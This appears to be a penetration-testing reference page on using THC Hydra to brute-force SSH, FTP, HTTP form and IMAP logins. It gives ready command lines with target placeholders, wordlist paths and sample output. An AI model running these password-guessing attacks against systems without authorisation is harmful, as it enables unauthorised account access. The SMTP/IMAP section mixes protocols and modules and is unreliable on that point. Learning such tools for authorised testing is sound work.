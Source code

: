 # THC Hydra
[THC Hydra](https://sectools.org/tool/hydra/) is a tool commonly used to brute force user credentials. Always remember that you are at the mercy of your wordlists during these types of attacks. The longer, more accurate/finely-tuned wordlist = the fatser you get positive results.
## SSH Brute Force
To brute force SSH credentials, use the following command. This will brute force the credentials for the `root` user.

```
root@kali:~# hydra -l root -P /wordlists/rockyou.txt (target ip address) ssh
[WARNING] Many SSH configurations limit the number of parallel tasks, it is \
recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344423 login tries (l:1/p:0), ~14344423 tries per task
[DATA] attacking ssh://(target ip address):22/
[STATUS] 257.00 tries/min, 257 tries in 00:00h, 0 to do in 01:00h, 14344167 active
[STATUS] 245.00 tries/min, 735 tries in 00:00h, 0 to do in 03:00h, 14343689 active
[STATUS] 231.14 tries/min, 1618 tries in 00:00h, 0 to do in 07:00h, 14342806 active
```

## FTP Brute Force
To brute for an FTP service with a known username try the following command.

`hydra -l (UID) -P /path/to/500-worst-passwords.txt (TARGET IP ADDRESS) ftp`

## HTTP
To brute for an HTTP form, try the following syntax with `hydra`:

`hydra -l (USERNAME) -P /path/to/wordlist.txt (TARGET IP ADDRESS) http-post-form "/URI/path/to/login.php:(HTML FORM USERNAME ATTRIBUTE)=^USER^&(HTML FORM PASSWORD ATTRIBUTE)=^PASS^&Login=Login:(FAILED LOGIN MESSAGE)"`

Where `HTML FORM USERNAME ATTRIBUTE` is the HTML form username "name" attribute. E.g.: `<input type=text name="username" />` In that example, the `username` value for the attribute `name` is what would be used. Same gfoes for the password: `<input type=password name="passwd" />` In that exmaple `passwd` would be used to construct the command as it is the value of the password input's name attribute. The command would then look something like so:

  ... `:username=^USER^&passwd=^PASS^` ...
  
  `hydra` will fill in the `^USER^` and `^PASS^` values upon every single HTTP request with each username and password that you mean to test.
  
## SMTP (IMAP SSL)
To brute force SMTP via SSL Authentication, you must first enumerate which port ssl/imap is runniing on using `nmap`. In our case, we found port 993 as,

```
993/tcp  open  ssl/imap   Dovecot imapd
|_imap-capabilities: ID more IDLE have IMAP4rev1 ENABLE LOGIN-REFERRALS SASL-IR LITERAL+ listed capabilities Pre-login post-login AUTH=PLAINA0001 OK
```

We also need to enumerate a valid username. We can hlearn how to do so from the [SMTP User Enumeration Module](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Enumeration/smtp-user-enumeration.md). After gathering these two pieces of information, we can use `hydra` to try to brute force the authentication like so:

`root@kali:~# hydra (TARGET IP ADDRESS) smtp -l (USERNAME) -P /path/to/wordlist.txt -V -s (TARGET PORT)`
